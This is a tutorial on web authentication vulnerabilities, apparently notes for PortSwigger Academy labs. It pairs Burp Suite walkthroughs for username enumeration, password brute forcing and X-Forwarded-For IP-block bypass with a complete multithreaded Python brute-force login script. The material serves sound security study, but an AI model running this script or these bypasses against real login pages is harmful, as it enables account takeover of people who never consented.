










# Authentication Vulnerabilities

## 1. What is Authentication?
Authentication is the process of verifying the identity of a user or client.
(The website checks whether the person trying to log in is really the correct user or not.)

**Example**
Suppose a user enters:
- Username: Carlos123
- Password: mypassword

The website checks:
- Does this username exist?
- Is the password correct?

If both are correct: **Access Granted**  
If incorrect: **Access Denied**

## 2. Why Authentication is Important
- Websites are available on the internet for everyone.
- Because of this:
    - Attackers can also try to access accounts
    - Websites must verify users properly
- Weak authentication can allow unauthorized access

**Authentication is one of the most important parts of web security.**

## 3. Types of Authentication
There are mainly 3 types of authentication factors.

### 3.1 Something You Know
This means information only the user should know.

**Examples:**
- Password
- PIN
- Security question answer

These are called: **Knowledge Factors**

**Example**
- Password: Hello@123

The website assumes:
> "If the user knows the password, then they are the real user."

### 3.2 Something You Have
This means a physical object the user owns.

**Examples:**
- Mobile phone
- OTP device
- Security token
- Smart card

These are called: **Possession Factors**

**Example**
- OTP sent to mobile phone

Only the real user should have access to that phone.

### 3.3 Something You Are or Do
This is based on biometrics or behavior.

**Examples:**
- Fingerprint
- Face recognition
- Voice recognition
- Typing pattern

These are called: **Inherence Factors**

## 4. Authentication vs Authorization
Many beginners confuse these two terms.

| Authentication | Authorization |
| :--- | :--- |
| Checks: *"Who are you?"* | Checks: *"What are you allowed to do?"* |
| Verifies the identity of the user. | Verifies permissions. |

**Example**

**Step 1 Authentication**
- User logs in with:
    - Username: Carlos123
    - Password: pass123
- Website verifies credentials.
- If correct: User authenticated successfully

**Step 2  Authorization**
- Now website checks permissions.
- Example questions:
    - Can the user delete accounts?
    - View admin panel?
    - Edit other users?
- If not allowed: **Access Denied**

## 5. How Authentication Vulnerabilities Arise
Authentication vulnerabilities mainly happen in 2 ways.

### 5.1 Weak Authentication Mechanisms
The website does not properly protect against attacks like:
- Brute-force attacks
- Password guessing
- Username enumeration

**Example**
If a website allows unlimited login attempts:
> Attacker can try thousands of passwords

### 5.2 Broken Authentication Logic
Sometimes developers make coding mistakes.
These mistakes allow attackers to bypass authentication completely.
This is called: **Broken Authentication**

**Example**
Suppose developer writes incorrect login logic.
> Attacker may log in without knowing password.

## 6. Impact of Vulnerable Authentication
Authentication vulnerabilities are very dangerous.

**Possible Impacts**

- **6.1 Account Takeover**  
  Attacker gains access to another user's account.

- **6.2 Access to Sensitive Data**  
  Attacker may access:
    - Personal information
    - Business data
    - Private messages

- **6.3 Admin Account Compromise**  
  If attacker gains admin access:
    - Full website compromise may happen
    - Possible actions:
        - Delete users
        - Modify database
        - Access internal systems

- **6.4 Additional Attack Surface**  
  Even low-level accounts may expose hidden pages.
  These pages may contain more vulnerabilities.

## 7. Password-Based Login Systems
Most websites use username + password login systems.

**Login Flow**
1. User enters: Username + Password
2. Website checks database.
3. If credentials are correct: User logged in
4. If incorrect: Login failed

## 8. Brute-Force Attacks
A brute-force attack means:
> Trying many usernames and passwords repeatedly until correct credentials are found.

**Attack Process**

1. Attacker prepares username list (e.g., admin, administrator, carlos, john, support).
2. Attacker prepares password list (e.g., 123456, password, admin123, welcome, qwerty).
3. Automated tools try combinations rapidly.

**Why Brute Force Works**
Many users choose weak passwords like:
- password123
- admin123
- hello123

These are easy to guess.

## 9. Brute-Forcing Usernames
Usernames are often predictable.

**Common Username Patterns**
- Email Format: `firstname.lastname@company.com`
- Predictable Admin Names: admin, administrator, root, support

**Information Disclosure**
Sometimes websites accidentally expose usernames.

**Example Sources**
- Public user profiles
- HTTP responses
- Support pages
- Email leaks

## 10. Brute-Forcing Passwords
Attackers also try guessing passwords.

## 11. Password Policies
Websites often require strong passwords.

**Common Password Rules**
- Minimum Length (e.g., at least 8 characters)
- Uppercase + Lowercase Letters (e.g., HelloWorld)
- Special Characters (e.g., Hello@123)

## 12. Human Behavior Weakness
Even with strong password rules, users still create predictable passwords.

**Example**
- Original password: `mypassword` (rejected)
- User changes it to: `Mypassword1!`

This still follows a predictable pattern.

**More Examples**
- `Mypassword1?`
- `Mypassword2!`
- `Myp4$$w0rd`

Attackers know these patterns. This makes brute-force attacks more effective.

## 13. Username Enumeration
Username enumeration means:
> Finding valid usernames by observing website behavior

**Why It is Dangerous**
If attacker knows valid usernames:
> Brute-force attack becomes much easier

## 14. How Username Enumeration Happens
It usually happens in:
- Login forms
- Registration forms
- Forgot password pages

## 15. Username Enumeration Through Status Codes
Different HTTP status codes may reveal valid usernames.

**Example**
- Invalid Username: `HTTP/1.1 401 Unauthorized`
- Valid Username but Wrong Password: `HTTP/1.1 200 OK`

**Why This is Dangerous**
Different responses indicate: Username exists

## 16. Username Enumeration Through Error Messages
Different error messages may expose valid usernames.

**Example**
- **Case 1** (Invalid Username): `Invalid username`
- **Case 2** (Valid Username but Wrong Password): `Incorrect password`

**Why This is Dangerous**
Attacker learns: Username is correct. Now attacker only needs password.

## 17. Username Enumeration Through Response Time
Sometimes websites process valid usernames differently. This creates response time differences.

**Example**
- Invalid Username: Website immediately rejects request. Response time: ~100 ms
- Valid Username: Website additionally checks password. Response time: ~500 ms

**Why This Happens**
Extra password verification takes more time. Attackers measure these delays to identify valid usernames.

## 18. Long Password Timing Attack
Attackers may submit extremely long passwords.
- Example:
`aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa`

**Why?**
- If username is valid:
    - Website processes long password
    - More computation happens
    - Response becomes slower
- This helps attacker identify valid usernames.


## Step 1: Capture the Login Request

1. Start **Burp Suite** and keep interception/history enabled.
2. Open the target login page in the browser.
3. Enter:
   - Invalid username
   - Invalid password
4. Submit the login form.

---


## Step 2: Send the Request to Intruder

1. In Burp Suite, go to:

   ```text
   Proxy > HTTP history
   ```

2. Find the request:

   ```http
   POST /login
   ```

3. Right-click the request.
4. Select:

   ```text
   Send to Intruder
   ```


---

## Step 3: Configure Username Payload Position

1. Open the **Intruder** tab.
2. Go to the **Positions** section.
3. Burp automatically marks the username parameter like this:

   ```http
   username=§invalid-username§&password=invalid-password
   ```

4. Leave the password static for now.
5. Make sure attack type is:

   ```text
   Sniper
   ```

---

## Step 4: Add Username Wordlist

1. Open the **Payloads** tab.
2. Ensure payload type is:

   ```text
   Simple list
   ```

3. Under **Payload configuration**, paste the list of candidate usernames.
4. Click:

   ```text
   Start attack
   ```

---

## Step 5: Identify Valid Username

1. After the attack finishes, observe the:

   ```text
   Length
   ```

   column.

2. Sort the results by clicking the column header.
3. Notice one response is longer than the others.

### Normal Responses

Most responses contain:

```text
Invalid username
```

### Different Response

One response contains:

```text
Incorrect password
```

This means:

- Username is valid
- Password is wrong

4. Note the username shown in the **Payload** column.

---

## Step 6: Configure Password Brute Force

1. Close the previous attack window.
2. Return to the **Intruder** tab.
3. Click:

   ```text
   Clear §
   ```

4. Replace the username with the valid username you discovered.
5. Add payload markers around the password parameter.

Example:

```http
username=identified-user&password=§invalid-password§
```

---

## Step 7: Add Password Wordlist

1. In the **Payloads** tab:
   - Remove username payloads
   - Paste candidate passwords

2. Click:

   ```text
   Start attack
   ```

---


## Step 8: Find the Correct Password

1. After the attack finishes, observe the:

   ```text
   Status
   ```

   column.

2. Most responses return:

   ```text
   200 OK
   ```

3. One response returns:

   ```text
   302 Found
   ```

This usually indicates:

- Successful login
- Correct password found

4. Note the password from the **Payload** column.

---

## Step 9: Login to the Application

1. Go back to the login page.
2. Enter:
   - Valid username
   - Correct password

3. Login successfully.
4. Open the user account page to solve the lab.

---

# Important Note

It is also possible to brute-force both username and password together using:

```text
Cluster Bomb Attack
```

However, identifying a valid username first is usually much faster and more efficient.


# Multithreaded Login Brute Force Script

This Python script automates username and password brute forcing for PortSwigger Web Security Academy labs.

It is especially useful when using Burp Suite Community Edition because Intruder attacks are rate-limited and slow.

The script:
- Takes username and password files as input
- Uses multithreading for faster execution
- Displays a live loading animation
- Shows total attempts and elapsed time
- Stops automatically when valid credentials are found

---

# Python Script

```python
import requests
import threading
import time
from concurrent.futures import ThreadPoolExecutor

url = "https://0ac800f404e35a518031c67c00140053.web-security-academy.net/login"

session_cookie = "mI76qzVjMKQIT5CxKng8jxRQ4MTjN"

username_file = input("Username file: ")
password_file = input("Password file: ")

headers = {
    "User-Agent": "Mozilla/5.0"
}

cookies = {
    "session": session_cookie
}

with open(username_file, encoding="latin-1") as f:
    usernames = [u.strip() for u in f]

with open(password_file, encoding="latin-1") as f:
    passwords = [p.strip() for p in f]

found = False
attempts = 0
start_time = time.time()

def loading():

    animation = ["|", "/", "-", "\\"]

    i = 0

    while not found:

        elapsed = round(time.time() - start_time, 1)

        print(
            f"\r{animation[i % 4]} Running... "
            f"Attempts: {attempts} | "
            f"Time: {elapsed}s",
            end=""
        )

        time.sleep(0.2)

        i += 1

def login_attempt(username, password):

    global found
    global attempts

    if found:
        return

    attempts += 1

    data = {
        "username": username,
        "password": password
    }

    try:

        r = requests.post(
            url,
            data=data,
            headers=headers,
            cookies=cookies,
            allow_redirects=False,
            timeout=3
        )

        if r.status_code == 302:

            found = True

            print("\n\n===================================")
            print("USERNAME =", username)
            print("PASSWORD =", password)
            print("===================================")

    except:
        pass

threading.Thread(target=loading, daemon=True).start()

with ThreadPoolExecutor(max_workers=100) as executor:

    for username in usernames:

        for password in passwords:

            if found:
                executor.shutdown(wait=False)
                break

            executor.submit(
                login_attempt,
                username,
                password
            )

print("\nFinished.")
```
# Install Required Module

```bash
pip install requests
```

# Save Script

```bash
nano bruteforce.py
```

Paste the script and save the file.

# Run Script

```bash
python3 bruteforce.py
```

#  Input

```text
Username file: usernames.txt
Password file: passwords.txt
```

# Output


# Features

- Multithreaded login attempts
- Faster than Burp Suite Community Intruder
- Live status indicator
- Displays elapsed time
- Stops automatically after finding valid credentials

---


## Step 1: Capture the Login Request

1. Start **Burp Suite**.
2. Open the login page.
3. Enter:
   - Invalid username
   - Invalid password
4. Submit the login form.

---

## Step 2: Send Request to Intruder

1. Go to:

   ```text
   Proxy > HTTP history
   ```

2. Find the request:

   ```http
   POST /login
   ```

3. Highlight the username parameter.
4. Right-click the request.
5. Select:

   ```text
   Send to Intruder
   ```

---

## Step 3: Configure Payload Position

1. Open the **Intruder** tab.
2. Burp automatically marks the username parameter:

```http
username=§invalid-user§&password=invalid-password
```

3. Keep the password static for now.

---

## Step 4: Add Username Wordlist

1. Open the **Payloads** side panel.
2. Ensure payload type is:

   ```text
   Simple list
   ```

3. Paste the list of candidate usernames.

---

## Step 5: Configure Grep - Extract

1. Open the **Settings** tab.
2. Under:

   ```text
   Grep - Extract
   ```

3. Click:

   ```text
   Add
   ```

4. In the response window:
   - Scroll until you find:

```text
Invalid username or password.
```

5. Highlight only the message text using the mouse.
6. Burp automatically configures extraction settings.
7. Click:

   ```text
   OK
   ```

---

## Step 6: Start Username Enumeration Attack

1. Click:

   ```text
   Start attack
   ```

2. Wait for the attack to finish.

---

## Step 7: Identify Valid Username

1. Observe the new extracted column in results.
2. Sort the results using this column.

### Normal Responses

Most responses contain:

```text
Invalid username or password.
```

### Different Response

One response contains:

```text
Invalid username or password 
```

Notice:

- There is a trailing space instead of a period (`.`)
- This subtle difference indicates a valid username

3. Note the username from the **Payload** column.

---

## Step 8: Configure Password Brute Force

1. Close the results window.
2. Return to the **Intruder** tab.
3. Replace the username with the valid username.
4. Add payload markers around the password parameter.

Example:

```http
username=identified-user&password=§invalid-password§
```

---

## Step 9: Add Password Wordlist

1. Open the **Payloads** tab.
2. Remove the username list.
3. Paste the password list.
4. Start the attack.

---

## Step 10: Identify Correct Password

1. After the attack finishes, observe the:

   ```text
   Status
   ```

   column.

2. Most responses return:

```text
200 OK
```

3. One response returns:

```text
302 Found
```

This indicates a successful login.

4. Note the password from the **Payload** column.

---

## Step 11: Login Successfully

1. Open the login page.
2. Enter:
   - Valid username
   - Correct password

3. Login successfully.
4. Access the user account page to solve the lab.

---

# Important Note

It is also possible to brute-force both username and password using:

```text
Cluster Bomb Attack
```

However, identifying a valid username first is much more efficient.

---

## Step 1: Capture Login Request

1. Start **Burp Suite**.
2. Open the login page.
3. Enter:
   - Invalid username
   - Invalid password
4. Submit the login form.


## Step 2: Send Request to Repeater

1. Go to:

   ```text
   Proxy > HTTP history
   ```

2. Find the request:

   ```http
   POST /login
   ```

3. Right-click the request.
4. Select:

   ```text
   Send to Repeater
   ```

## Step 3: Observe IP-Based Brute Force Protection

1. In **Repeater**, send multiple invalid login requests.
2. Notice:

```text
Your IP gets blocked after too many failed attempts.
```

This indicates:

```text
IP-based brute-force protection is enabled.
```


## Step 4: Bypass IP Blocking Using X-Forwarded-For

1. Add the following header to the request:

```http
X-Forwarded-For: 1
```

2. Send the request again.
3. Change the value each time:

```http
X-Forwarded-For: 2
X-Forwarded-For: 3
X-Forwarded-For: 4
```


This spoofs different IP addresses and bypasses the block.

## Step 5: Discover Timing Difference

1. Continue testing different usernames.
2. Use a very long password:

```text
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

3. Observe the response times.

### Observation

- Invalid usernames respond quickly.
- Valid usernames take longer to respond.

This happens because:

```text
The server spends extra time checking the password for valid usernames.
```
- if username is incorrect:
  
  
  
- if the username  correct and password incorrect :


  # no differnece in both case
  - if the username correct and password is long : response time is big
    


  
# Username Enumeration Using Intruder

## Step 6: Send Request to Intruder

1. Send the request to:

```text
Intruder
```

2. Set attack type to:

```text
Pitchfork
```

## Step 7: Add X-Forwarded-For Header

Add this header to the request:

```http
X-Forwarded-For: §1§
```

## Step 8: Configure Payload Positions

Example request:

```http
POST /login HTTP/2

X-Forwarded-For: §1§

username=§carlos§&password=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

Payload positions:

1. X-Forwarded-For header
2. Username parameter


## Step 9: Configure Payload 1 (Spoofed IPs)

1. In the **Payloads** side panel:
2. Select:

```text
Payload position 1
```

3. Set payload type to:

```text
Numbers
```

4. Configure:

```text
From: 1
To: 100
Step: 1
Max fraction digits: 0
```

This generates spoofed IP values.


## Step 10: Configure Payload 2 (Usernames)

1. Select:

```text
Payload position 2
```

2. Paste the list of usernames.


## Step 11: Start Username Enumeration Attack

1. Start the attack.
2. After completion:
   - Click:

```text
Columns
```

3. Enable:

```text
Response received
Response completed
```

## Step 12: Identify Valid Username

1. Observe response times carefully.
2. One username consistently takes longer than others.

This indicates:

```text
Valid username found.
```

3. Repeat the request several times to confirm.
4. Note the valid username.


# Password Brute Force

## Step 13: Create New Intruder Attack

1. Create another Intruder attack.
2. Add:

```http
X-Forwarded-For: §1§
```

3. Insert the valid username.
4. Add payload markers around password.

Example:

```http
username=identified-user&password=§invalid-password§
```


## Step 14: Configure Password Attack Payloads

### Payload Position 1

Use:

```text
Numbers
```

Range:

```text
1 - 100
```

This changes spoofed IP addresses.

### Payload Position 2

Paste the password wordlist.

## Step 15: Start Password Attack

1. Start the attack.
2. Observe the:

```text
Status
```

column.

## Step 16: Identify Correct Password

1. Most responses return:

```text
200 OK
```

2. One response returns:

```text
302 Found
```

This indicates:

```text
Successful login.
```


3. Note the password from the Payload column.

## Step 17: Login Successfully

1. Open the login page.
2. Enter:
   - Valid username
   - Correct password

3. Login successfully.
4. Open the account page to solve the lab.

# Important Note

It is possible to brute-force both username and password together using:

```text
Cluster Bomb Attack
```

However, enumerating a valid username first is usually much faster and more efficient.


# Flawed Brute-Force Protection


# 1. What is Brute-Force Protection?

Brute-force protection is a security mechanism used to stop attackers from trying many username and password combinations repeatedly.

The main goal is:Make brute-force attacks slower and harder

# 2. Why Brute-Force Protection is Needed

In a brute-force attack:

- Attackers try many passwords
- Most login attempts fail
- Automated tools can send requests very fast

Without protection:Attackers may eventually guess correct credentials

# 3. Common Brute-Force Protection Methods

There are mainly 2 common protection methods.

# 4. Account Locking

The website locks the target account after too many failed login attempts.

## Example

Suppose limit is:5 failed login attempts
## Attack Flow

### Step 1

Attacker tries wrong passwords:

```tex
Attempt 1 → Wrong
Attempt 2 → Wrong
Attempt 3 → Wrong
Attempt 4 → Wrong
Attempt 5 → Wrong
```

### Step 2

Website locks account.

Example response:Account locked for 30 minutes
## Why This Helps

Even if attacker continues:No more password attempts allowed

This slows down brute-force attacks.

# 5. IP Address Blocking

Instead of locking the account, some websites block the attacker's IP address.

## Example

Suppose website allows:10 login attempts per minute
If attacker exceeds limit:IP address gets temporarily blocked

## Example Response

```http
HTTP/1.1 429 Too Many Requests
```

## Why This Helps

Attack tools cannot continue sending requests rapidly.

# 6. Problem with Brute-Force Protection

Many websites implement these protections incorrectly.

This creates:Flawed Brute-Force Protection

# 7. What is Flawed Brute-Force Protection?

This means:The protection exists but can still be bypassed

because of weak logic or coding mistakes.

# 8. Example of Flawed Logic

Some websites reset the failed-attempt counter after a successful login.

## Normal Expected Behavior

Suppose limit is:5 failed attempts


Website should permanently count failed attempts until timeout.

## Flawed Behavior

Website logic:

```text
If login successful:
    Reset failed-attempt counter
```

This becomes dangerous.

# 9. How Attackers Bypass This Protection

Attacker uses:

- Their own valid account
- Victim username
- Password wordlist

# 10. Attack Example

## Victim Account

```text
Username: carlos
```

## Attacker Account

```text
Username: attacker123
Password: pass123
```

# 11. Attack Process


### Step 1 Try Wrong Passwords

Attacker sends:

```text
carlos : test1
carlos : test2
carlos : test3
carlos : test4
```

Failed attempt counter becomes:4


### Step 2  Login to Own Account

Attacker logs into:attacker123 : pass123

Login succeeds.

### Step 3 Counter Resets

Website resets failed-attempt counter.

Now counter becomes:0
### Step 4 Continue Brute Force

Attacker again tries:

```text
carlos : password1
carlos : hello123
carlos : qwerty
carlos : admin123
```
# 12. Why This Attack Works

Because website logic is flawed.

The website assumes:

```text
Successful login = safe user
```

So it resets protection counters.

But attacker abuses this behavior.

